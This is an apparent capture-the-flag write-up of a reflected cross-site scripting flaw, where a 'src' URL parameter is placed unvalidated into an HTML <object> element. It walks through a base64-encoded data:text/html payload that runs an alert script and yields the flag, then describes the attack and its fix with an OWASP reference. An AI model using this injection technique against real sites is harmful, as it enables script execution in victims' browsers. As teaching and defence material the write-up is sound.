 ## Reflected Cross Site Scripting (XSS)

# Vulnerability
* See `http://[host]/?page=media&src=nsa`
* Modify `src` parameter
* See that it updates without validation an `<object>` element (The HTML 
<object> element represents an external resource, which can be treated as an 
image, a nested browsing context, or a resource to be handled by a plugin.)
```
<object data="[input]"></object>
```
* Base64 encode a malicious script
```
echo -e "<script>alert('42')</script>" | base64
```
It outputs `PHNjcmlwdD5hbGVydCgnNDInKTwvc2NyaXB0Pgo=`
* Visit `http://[host]/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnNDInKTwvc2NyaXB0Pgo=`
* Get the flag

# Attack

An attacker can create a malicious URL, then use social engineering tricks to 
lure victims into visiting a link to the URL. When victims click the link, they 
unwittingly reflect the malicious content through the vulnerable web application 
back to their own computers. This mechanism of exploiting vulnerable web 
applications is known as Reflected XSS. Base64 encoding is particularly
 useful for malicious code obfuscation. 
 
# Fix 
* Never insert untrusted data except in allowed location
* Or at least HTML encode before inserting untrusted data into HTML element
. For instance, in our example, `text/html` would be coded as `text&#x2F;html`.

# Reference
https://owasp.org/www-community/attacks/xss/
